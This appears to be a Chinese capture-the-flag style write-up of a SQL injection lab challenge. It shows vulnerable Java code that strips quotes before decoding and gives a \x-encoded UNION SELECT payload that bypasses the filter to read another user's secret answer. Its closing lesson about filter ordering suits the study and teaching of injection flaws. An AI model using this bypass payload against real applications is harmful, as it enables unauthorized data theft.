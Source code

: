#  SQL Injection Challenge 6(SQL 注入 6)

## 题介绍
利用SQL注入点,获得通关密钥  

## 功能实现 
请求数据包  
```
POST /challenges/d0e12e91dafdba4825b261ad5221aae15d28c36c7981222eb59f7fc8d8f212a2 HTTP/1.1


pinNumber=1234
```

解析代码   
```
userPin = userPin.replaceAll("\\\\", "\\\\\\\\").replaceAll("'", ""); // Escape single quotes
log.debug("userPin scrubbed - " + userPin);
userPin = java.net.URLDecoder.decode(userPin.replaceAll("\\\\\\\\x", "%"), "UTF-8"); //Decode \x encoding 
log.debug("searchTerm decoded to - " + userPin);
Connection conn = Database.getChallengeConnection(applicationRoot, "SqlChallengeSix");
log.debug("Looking for users");
PreparedStatement prepstmt = 
		conn.prepareStatement("SELECT userName FROM users WHERE userPin = '" + userPin + "'");
ResultSet users = prepstmt.executeQuery();
```

单引号被过滤了  

但这个题会接收URL编码，因此绕过了第一步的单引号过滤  

## 解题步骤  
只需要使用\x27 代替单引号即可    
```
\x27\x20UNION\x20SELECT\x20userAnswer\x20FROM\x20users\x20WHERE\x20userName\x20\x3D\x20\x27Brendan\x27\x3B\x20--\x20
```
## 总结  
安全过滤的顺序非常的重要，如果将url解码和单引号过滤功能互换即可达到安全校验效果  
